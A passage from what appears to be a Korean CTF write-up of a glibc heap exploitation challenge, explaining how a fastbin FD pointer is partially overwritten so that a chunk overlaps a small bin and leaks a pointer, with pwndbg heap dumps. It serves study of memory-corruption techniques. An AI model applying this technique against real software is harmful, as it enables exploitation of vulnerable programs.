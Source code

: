 각각의 목적은 다음과 같습니다.

1. idx 0: fill을 이용하여 idx 3의 FD를 idx 4(`small bin`)의 데이터 쪽으로 조작
2. idx 1, idx 2: 2개의 힙 덩어리를 해제 하여, `FD`를 입에 노출
3. idx 3: idx 4 쪽에 정상적으로 할당되기 위해 fill 을 이용하여 idx 4의 사이즈를 조정
4. idx 4: `small bin`을 해제 하여 `FD`를 데이터 영역에 남기고 동일한 위치에 할당된 `fast bin`을 이용하여 `FD`를 노출

따라서, 순서는 2 -> 1 -> 3-> 4 의 순서가 되고 중간 중간에 몇 가지 추가 적인 작업이 있습니다.

(순서 2) idx 1과 idx 2를 해제 하면 다음과 같습니다.

```
0x555555757000:	0x0000000000000000	0x0000000000000031 (idx 0)
0x555555757010:	0x0000000000000000	0x0000000000000000
0x555555757020:	0x0000000000000000	0x0000000000000000
0x555555757030:	0x0000000000000000	0x0000000000000031 (freed)
0x555555757040:	0x0000000000000000	0x0000000000000000
0x555555757050:	0x0000000000000000	0x0000000000000000
0x555555757060:	0x0000000000000000	0x0000000000000031 (freed)
0x555555757070:	0x0000555555757030	0x0000000000000000
0x555555757080:	0x0000000000000000	0x0000000000000000
0x555555757090:	0x0000000000000000	0x0000000000000031 (idx 3)
0x5555557570a0:	0x0000000000000000	0x0000000000000000
0x5555557570b0:	0x0000000000000000	0x0000000000000000
0x5555557570c0:	0x0000000000000000	0x0000000000000091 (idx 4)
0x5555557570d0:	0x0000000000000000	0x0000000000000000

pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x555555757060 —▸ 0x555555757030 ◂— 0x0
```

위 내용을 통해, bins를 확인하면 0x2X를 2번 할당 하면 처음에 `0x555555757060`에 할당이 되고 그 다음에 `0x555555757030`에 할당이 됩니다.

(순서 1) `idx 0` 을 이용하여 `0x555555757070` 위치에 최하위 바이트인 `0x30`을 `0xc0`로 바꿉니다.

원래는 0x2X를 2번 할당하면 `0x555555757060`에 먼저 할당이 되고, `0x555555757030`에 할당이 되어야 하지만 `(순서 1)` 작업을 통해 처음에 할당을 하면 `0x555555757060`에 할당이 되고, 할당 시, `FD`의 내용을 리스트에 넣기 때문에 다음에 할당 되는 위치가 `0x5555557570c0`가 되며, 이 위치는 idx 4인 small bin과 겹치게 됩니다.

한 가지, 주의할 점은 (순서 1)을 한 뒤, `small bin`에 중첩 하기 위해 0x2X사이즈로 두 번 할당 할 경우, `small bin`->size = 0x91 이기 때문에 사이즈가 맞지 않아 에러가 발생하게 됩니다.

따라서, 할당 하기 전에 먼저 `small bin`->size 역시 0x31로 변경한 뒤에 할당을 진행합니다.

`fast bin` 0x2X 청크 2개를 할당하면 다음과 같습니다.

```
0x555555757000:	0x0000000000000000	0x0000000000000031  (idx 0)
0x555555757010:	0x0000000000000000	0x0000000000000000
0x555555757020:	0x0000000000000000	0x0000000000000000
0x555555757030:	0x0000000000000000	0x0000000000000031
0x555555757040:	0x0000000000000000	0x0000000000000000
0x555555757050:	0x0000000000000000	0x0000000000000000
0x555555757060:	0x0000000000000000	0x0000000000000031  (idx 1)
0x555555757070:	0x0000000000000000	0x0000000000000000
0x555555757080:	0x0000000000000000	0x0000000000000000
0x555555757090:	0x0000000000000000	0x0000000000000031  (idx 3)
0x5555557570a0:	0x0000000000000000	0x0000000000000000
0x5555557570b0:	0x0000000000000000	0x0000000000000000
0x5555557570c0:	0x0000000000000000	0x0000000000000031  (idx 4, idx 2)
0x5555557570d0:	0x0000000000000000	0x0000000000000000
0x5555557570e0:	0x0000000000000000	0x0000000000000000
0x5555557570f0:	0x0000000000000000	0x0000000000000000
0x555555757100:	0x0000000000000000	0x0000000000000000
0x555555757110:	0x0000000000000000	0x0000000000000000
0x555555757120:	0x0000000000000000	0x0000000000000000
0x555555757130:	0x0000000000000000	0x0000000000000000
```